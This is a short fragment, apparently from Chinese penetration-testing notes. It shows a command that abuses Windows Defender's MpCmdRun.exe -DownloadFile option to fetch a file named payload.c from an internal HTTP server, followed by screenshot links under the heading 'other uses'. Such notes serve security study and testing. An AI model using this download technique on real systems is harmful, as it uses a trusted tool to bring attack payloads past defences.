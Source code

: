 	C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0>MpCmdRun.exe -DownloadFile -url http://192.168.2.105:8000/payload.c -path c:\\users\\test\\desktop\\1.c
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/812.png)
		
	其他利用
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/812-2.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/812-3.jfif)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/812-4.jfif)
